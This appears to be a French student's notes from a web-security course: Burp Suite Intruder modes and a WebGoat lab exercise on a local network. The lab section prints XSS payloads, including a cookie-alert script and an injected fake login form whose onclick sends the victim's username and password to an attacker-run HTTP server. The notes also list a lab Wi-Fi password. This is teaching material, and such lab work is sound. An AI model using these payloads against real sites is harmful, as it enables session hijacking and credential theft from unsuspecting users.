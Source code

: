 #<center>Cyber-Sécurité</center>

##Mise en jambes
Faites de l'analyse de risque pour déterminer si on fait de la sécurité

Qu'est ce qu'une donnée sensible?
Une adresse mail c'est pas forcement sensible
Il faut se référer au GDPR

Les num de carte doivent être sécurisés en toutes circonstances

**Pas de sur-sécurité**

On peut créer des analyses statiques qui vont étudier le code pour examiner les infos en dur dans le logiciel, les librairies, les fonctions etc.

https://networkmarketshare.com

Connexion à: ProxiaAP
mdp: abcdef1234

http://192.168.0.1:8081/WebGoat/attack

Ajouter plug in pour passer par un proxy

Télécharger Burpsuite

##Modes

*Exemple*: 
Original URL: `/search.php?cat_id=§123§&q=§hello§`
Payload: 

###Sniper:

Si j'ai défini plusieurs paramètres, ils vont prendre a tour de rôle les valeurs possibles définis.

###Battering ram

Les paramètres vont prendre la même valeur a chaque essai.

###Pitchfork

Si on a 2 paramètres j'ai 2 listes mais ils prennent la même ligne.

###Cluster bomb

Si on a 2 paramètres j'ai 2 listes en faisant toutes les combinaisons.



## TP

### Mise en place
Accéder au Hot-spot Wi-Fi ProxiaAP.
Configurer un proxy (FoxyProxy)
Dans BurpSuite configurer le proxy et setter l'*Intercerpt is off*

Accéder a l'adresse: http://192.168.0.1:8081/WebGoat/attack
et renseigner webgoat et webgoat pour les username et mdp.  

!!! tip
    Pour enlever les requettes non souhaitées dans Burp il faut clic droit sur une requête a garder, add to scope, puis clic sur filter, show only in-scope...

###Stage 5

Une fois renseigner le mdp qui est le prénom de l'employé on peut accéder a la barre de recherche.
Dans cette barre de recherche on y rentre un script: `<script>alert(document.cookie);</script>`
Ce script nous permet de renvoyer l'id de la session en cours.

On pourrait aussi renseigner une ligne HTML qui afficherais une image: `<img src="#" onerror="alert('hack');"/>`

Le code suivant permet d'afficher a l'utilisateur qui fait une recherche une erreur et un formulaire. En renseignant son username et son mot de passe l'utilisateur pense se connecter mais on extrait ses identifiants vers notre site web.

```html
Free softwares                    <hr />
<b>Only registered users are allowed to use our search feature to prevent bots</b>
<br></br>
Username:<br><input type="text" name="username"><br>
Password:<br><input type="text" name="password"><br>
<input type="submit" value="Login" 
onclick="window.open('http://http://127.0.0.1:81//?u='+this.form.username.value+'&p='+this.form.password.value);">
```

Pour essayer d'extraire ces données on va commencer par lancer un serveur http avec python `python.exe -m http.server 81`  
!!! Exemple 
    Si on accède maintenant à : http://localhost:81/ on voit sur notre shell une requête:`::ffff:127.0.0.1 - - [23/Oct/2020 09:47:34] "GET / HTTP/1.1" 200 -`  
    Dans la suite on récupérera les identifiants de l'utilisateur leurré via ces requêtes.


